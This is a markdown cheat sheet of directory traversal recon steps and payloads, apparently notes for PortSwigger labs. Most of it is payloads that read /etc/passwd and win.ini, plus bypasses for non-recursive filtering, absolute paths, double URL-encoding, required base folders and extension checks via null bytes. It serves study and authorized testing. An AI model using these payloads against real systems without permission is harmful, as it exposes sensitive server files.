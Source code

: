 # Directory Traversal

## Summary

* [Recon for Directory Traversal Vulnerabilities](#recon)

* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

## Recon

### Identify Directory Traversal

* Identify any application functionality that is likely to involve retrieval of data from a server’s filesystem.


* Look for any input fields that reference a file or directory name, or that contain any file extensions. 

    * Example: ?file=test, ?item=test.html


* After identifying potential targets for directory traversal testing, we need to test every instance individually to determine if user controllable data is used to interact with the server filesystem in an unsafe way.


## Cheat Sheet

### No Defenses in place

* This is a basic payload that can be used to test for directory traversal vulnerabilities when the application doesn’t implement any input validation.  This payload will step up 3 directories to reach the filesystem root, then reference another common file depending on the operating system in use.

```bash 
../../../etc/passwd
```
```bash
../../../windows/win.ini
```

<br><br>
**Many applications that place user input in file paths implement some defenses against traversal attacks.  The following payloads include some techniques to use in order to bypass these defenses.**

<br><br>
### Non-recursive filtering bypass

* The application is filtering out the ../ characters, but not in a recursive manner:

```bash
....//....//....//etc/passwd   
```
```bash
..././..././..././etc/passwd
```



### Absolute path bypass

* This payload references the file directly without the use of the traversal sequences

```bash
/etc/passwd  
```


### Encoding bypass

* Double URL encode the following payload:

```bash
../../../etc/passwd
```

* Other variations of the above:

    * Double URL encode only the / character in ../ :

```bash
..%25%32%66
```

* URL encode the / character then encode only the % character in ../ :

```bash
..%252f
```

<br><br>
* **Burp Pro includes a Path Traversal fuzzing wordlist that has many variations of encoding sequences to use.**
<br><br>


### Validation of starting path bypass

* Sometimes the application requires that the supplied filename begins with a base folder.  We can include this base folder and add in the traversal sequences after it.

```bash
/var/www/images/../../../etc/passwd
```


### File extension validation bypass

* If the application requires that the filename must end with a certain file extension, we can inject a null byte to possibly terminate the file path before the required extension:

```bash
../../../etc/passwd%00.png
```
